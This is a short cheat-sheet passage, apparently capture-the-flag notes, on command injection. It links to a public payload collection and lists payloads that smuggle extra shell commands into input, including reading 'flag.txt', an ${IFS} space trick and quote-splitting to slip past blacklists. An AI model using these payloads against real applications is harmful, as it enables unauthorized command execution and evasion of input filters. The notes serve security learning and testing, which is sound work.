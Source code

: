 ### Command Injection

---

[command](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
```py
ls;pwd
123;cat flag.txt
ls;pwd&&ls
'ls;ls${IFS}-la'
```

Filtering

```py
use single or double quotes to bypass blacklists
"w"h"o"am"i"
```
